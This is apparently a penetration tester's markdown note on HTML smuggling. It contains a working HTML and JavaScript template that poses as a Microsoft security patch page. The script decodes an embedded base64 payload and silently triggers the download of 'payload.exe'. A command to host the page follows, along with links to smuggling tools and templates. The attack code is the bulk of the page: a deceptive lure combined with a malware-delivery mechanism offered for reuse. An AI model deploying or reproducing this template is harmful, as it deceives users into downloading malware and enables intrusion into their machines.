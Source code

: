 # HTML Smuggling

## 01 - Manual

`$ cat html_smuggling.html`

---

```html
<html>
    <body>
        <h1>
            Security Patch Update!
        </h1>
        <p>
            Please install this Microsoft security patch update!
        </p>
        <script>
            function Base64ToArray(base64) {
                var binary_string = window.atob(base64);
                var len = binary_string.length;
                var bytes = new Uint8Array(len);
                for(var i = 0; i < len; i++)
                    bytes[i] = binary_string.charCodeAt(i);
                return bytes.buffer;
            }
            // $ basenc -w 0 --base64 payload.exe
            var base64_binary = '<base64_payload>'
            
            var data = Base64ToArray(base64_binary);
            var blob = new Blob([data], {type: 'octet/stream'});
            var payloadfilename = 'payload.exe';
            
            var anchor = document.createElement('a');
            document.body.appendChild(anchor);
            anchor.style = 'display: none';
            var url = window.URL.createObjectURL(blob);
            anchor.href = url;
            anchor.download = payloadfilename;
            anchor.click();
            window.URL.revokeObjectURL(url);
        </script>
    </body>
</html>
```

`$ sudo python -m http.server 80`

## 02 - Automated

### 2.1 - BobTheSmuggler

TODO: Provide usage details for BobTheSmuggler


---
## References

- [BobTheSmuggler](https://github.com/TheCyb3rAlpha/BobTheSmuggler)

- [Hacking Articles: A Detailed Guide on HTML Smuggling](https://www.hackingarticles.in/a-detailed-guide-on-html-smuggling/)

- [exploitblizzard: GhostInHTML](https://github.com/exploitblizzard/GhostInHTML)

### HTML Smuggling Templates

- [raulm0429: HTMLSmuggling](https://github.com/raulm0429/HtmlSmuggling)

- [JamesCooteUK Github Gist](https://gist.github.com/JamesCooteUK/507e5cc924e7811fbada64102d35509a)